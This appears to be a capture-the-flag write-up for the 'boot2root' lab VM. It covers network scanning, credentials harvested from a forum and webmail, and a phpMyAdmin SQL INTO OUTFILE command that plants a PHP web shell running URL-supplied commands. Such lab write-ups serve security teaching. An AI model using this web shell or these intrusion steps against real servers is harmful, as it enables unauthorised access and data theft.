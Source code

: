 # boot2root
root a iso using multiple vulnerabilities 


## Get IP running VirtualBox machine (boot2root)

```
VBoxManage guestproperty get boot2root "/VirtualBox/GuestInfo/Net/0/V4/IP"
```
#### OR  
  
 ```
ifconfig | grep inet            // to get ip address and netmask of current machine (e.g. 10.13.0.0/16)  
netdiscover -r 10.13.0.0/16     // to get ip address of virtual box env. (e.g. 10.13.0.132)  
nmap 10.13.0.132                // to get open ports (notably 80 http and 443 https)  
```

## Web Portal

#### Get access to forum and get email

1. `dirb https://10.13.0.132` shows that there are directories on the server named `forum` `phpmyadmin` and `webmail`  
2. Go to `htttps://10.13.0.132/forum/` and open the thread "Problemes login". Inside find failed attempt to login using what looks like a password (!q\]Ej?*5K5cy*AJ) instead of username, followed by successful login of user lmezard.  
4. Then login the forums with credentials, and find lmezard's email address (`laurie@borntosec.net`).  

#### Access webmail and get DB Access

1. Then go to `https://10.13.0.132/webmail/` and login with email and same password.  
2. Open mail with subject "DB Access" and get credentials for root access to database (root/Fg-'kKXBj87E:aJ$)

#### Access PHPMyAdmin and inject php script

1. Go to `https://10.13.0.158/phpmyadmin/` and login with credentials  
2. Go to SQL tab to execute SQL command. The following command allows you to create a file through sql and thus write a php script which will allow you to execute commands through the url parameters given to the file, if you have access to said file through the server.
```
SELECT "<?php $out = array();exec($_GET[\"cmd\"], $out);foreach($out as $line) {echo $line.\"<br />\";}?>" INTO outfile "/path/to/file/cmd.php"
```
3. Now you need to find out where to put the file so you have access rights.  
    The server is apache, so you try `/var/www/` and get error insufficient rights.  
    You go back to the dirb results (`dirb https://10.13.0.132`) to check server folder hierarchy.  
    Try every sub folder (e.g. forum you try `/var/www/forum/cmd.php`) until you find you have rights to `/var/www/forum/templates_c folder`.  
    So now you have your php script in that folder, go to `https://10.13.0.132/forum/templates_c/cmd.php?cmd=ls%20-la%20/home`  
4. Using shell commands in the url query, find directory called LOOKATME, the file named password. Use cat on file and get credentials: lmezard:G!@M6f4Eatau{sF"  
5. Login to Boot2Root VM.
